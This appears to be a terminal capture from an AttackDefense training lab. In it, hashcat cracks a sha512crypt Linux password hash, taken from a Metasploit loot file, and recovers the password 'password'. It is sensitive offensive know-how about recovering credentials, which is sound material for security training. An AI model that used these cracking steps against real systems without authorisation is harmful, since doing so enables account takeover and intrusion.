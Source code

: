 ```
root@attackdefense:~# hashcat --help | grep 1800
  18000 | Keccak-512                                       | Raw Hash
  11800 | GOST R 34.11-2012 (Streebog) 512-bit, big-endian | Raw Hash
   1800 | sha512crypt $6$, SHA512 (Unix)                   | Operating Systems
```

```
root@attackdefense:~# hashcat -a3 -m 1800 /root/.msf4/loot/20230715115911_default_192.123.71.3_linux.hashes_039466.txt /usr/share/wordlists/rockyou.txt

$6$sgewtGbw$ihhoUYASuXTh7Dmw0adpC7a3fBGkf9hkOQCffBQRMIF8/0w6g/Mh4jMWJ0yEFiZyqVQhZ4.vuS8XOyq.hLQBb.:password
                                                 
Session..........: hashcat
Status...........: Cracked
Hash.Type........: sha512crypt $6$, SHA512 (Unix)
Hash.Target......: $6$sgewtGbw$ihhoUYASuXTh7Dmw0adpC7a3fBGkf9hkOQCffBQ...hLQBb.
Time.Started.....: Sat Jul 15 12:18:02 2023 (0 secs)
Time.Estimated...: Sat Jul 15 12:18:02 2023 (0 secs)
Guess.Mask.......: password [8]
Guess.Queue......: 4/14336793 (0.00%)
Speed.#1.........:        5 H/s (0.07ms) @ Accel:64 Loops:16 Thr:1 Vec:4
Recovered........: 1/1 (100.00%) Digests, 1/1 (100.00%) Salts
Progress.........: 1/1 (100.00%)
Rejected.........: 0/1 (0.00%)
Restore.Point....: 0/1 (0.00%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:4992-5000
Candidates.#1....: password -> password
```